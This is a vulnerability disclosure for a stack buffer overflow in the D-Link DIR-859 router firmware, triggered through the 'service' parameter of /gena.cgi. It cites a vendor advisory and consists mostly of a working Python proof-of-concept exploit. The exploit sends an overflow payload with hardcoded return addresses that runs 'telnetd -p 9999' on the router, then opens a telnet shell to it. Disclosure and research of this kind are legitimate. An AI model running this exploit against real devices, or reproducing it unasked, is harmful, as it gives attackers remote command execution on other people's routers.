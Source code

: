 Vendor of the products:　D-link

Reported by: 　　　　　 chunkl.hit@gmail.com

Affected products:　　　DIR-859

Vendor Homepage:       https://www.dlink.com/    

Vendor Advisory:       https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10267


# Overview
The LAN-side Web-Configuration Interface has Stack-based Buffer Overflow vulnerability in the D-Link DIR-859 Wi-Fi router firmware v1.05. In the genacgi_main function of the cgibin program, the sprintf method directly uses the service parameter from /gena.cgi. The attackers can construct a payload to carry out arbitrary code attacks.

# Vul Details
![avatar](img/Picture1.png)

# Code in genacgi_main:
![avatar](img/Picture2.png)

# Poc
    from pwn import *
    import socket
    import os
    from time import sleep


    def httpSUB(server, port, shell_file):
        print('\n[*] Connection {host}:{port}').format(host=server, port=port)
        con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        request = "SUBSCRIBE /gena.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
        request += "Host: " + str(server) + str(port) + "\n"
        request += "Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
        request += "NT: upnp:event\n"
        request += "CONTENT-TYPE: application/x-www-form-urlencoded"+"a"*0x120+"\n"
        request += "Timeout: Second-1800\n"
        request += "Accept-Encoding: gzip, deflate\n"
        request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n\n"
        sleep(1)
        print('[*] Sending Payload')
        con.connect((socket.gethostbyname(server),port))
        con.send(request)
        results = con.recv(4096)
        sleep(1)
        print('[*] Running Telnetd Service')
        sleep(1)
        print('[*] Opening Telnet Connection\n')
        sleep(2)
        os.system('telnet ' + str(server) + ' 9999')

    serverInput = "192.168.0.1"
    portInput = 49152
    httpSUB(serverInput, portInput, "a"*0xAA+p32(0xc068FF7F)+"a"*4+p32(0xD0A2B42A)+p32(0x14D9B22A)+"telnetd -p 9999;a")


![avatar](img/Picture3.png)